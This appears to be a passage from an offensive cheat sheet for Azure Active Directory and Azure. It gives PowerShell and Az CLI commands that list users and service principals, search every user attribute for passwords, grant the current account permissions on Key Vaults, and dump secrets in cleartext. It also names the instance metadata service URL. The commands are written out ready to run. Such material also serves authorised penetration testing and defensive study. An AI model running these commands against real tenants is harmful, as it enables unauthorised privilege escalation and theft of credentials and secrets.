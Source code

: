 List all user attributes

```powershell
Get-MSolUser –All | fl
```

List Service Principals

```powershell
Get-MsolServicePrincipal
```

One-liner to search all Azure AD user attributes for passwords

```powershell
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

### Az CLI Tool

#### Authentication

```bash
az login
```

#### Dump Azure Key Vaults

List out any key vault resources the current account can view 

```bash
az keyvault list –query '[].name' --output tsv 
```

With contributor level access you can give yourself the right permissions to obtain secrets. 

```bash
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list 
```

Get URI for Key Vault 

```bash
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv 
```

Get cleartext secret from keyvault 

```bash
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

### Metadata Service URL

```bash
http://169.254.169.254/metadata
```
